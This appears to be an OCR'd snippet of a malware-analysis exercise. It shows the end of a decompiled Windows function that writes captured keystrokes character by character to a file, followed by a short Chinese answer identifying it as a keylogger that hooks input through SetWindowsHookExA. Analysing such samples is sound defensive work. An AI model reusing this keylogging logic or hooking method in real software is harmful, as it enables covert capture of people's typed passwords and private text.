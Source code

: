 ```
            WriteFile(hFile, a1, 1u, &NumberOfBytesWritten, 0);
            break;
          case 98:
            WriteFile(hFile, a2, 1u, &NumberOfBytesWritten, 0);
            break;
          case 99:
            WriteFile(hFile, a3, 1u, &NumberOfBytesWritten, 0);
            break;
          case 100:
            WriteFile(hFile, a4, 1u, &NumberOfBytesWritten, 0);
            break;
          case 101:
            WriteFile(hFile, a5, 1u, &NumberOfBytesWritten, 0);
            break;
          case 102:
            WriteFile(hFile, a6, 1u, &NumberOfBytesWritten, 0);
            break;
          case 103:
            WriteFile(hFile, a7, 1u, &NumberOfBytesWritten, 0);
            break;
          case 104:
            WriteFile(hFile, a8, 1u, &NumberOfBytesWritten, 0);
            break;
          case 105:
            WriteFile(hFile, a9, 1u, &NumberOfBytesWritten, 0);
            break;
          default:
            break;
        }
      }
      else
      {
        Buffer += 32;
        WriteFile(hFile, &Buffer, 1u, &NumberOfBytesWritten, 0);
      }
    }
    else
    {
      WriteFile(hFile, &Buffer, 1u, &NumberOfBytesWritten, 0);
    }
    result = (HANDLE)CloseHandle(hFile);
  }
  return result;
}
```

回答：

1、这是一个键盘记录器。

2、通过`SetWindowsHookExA`设置钩子函数来实现注入自身。
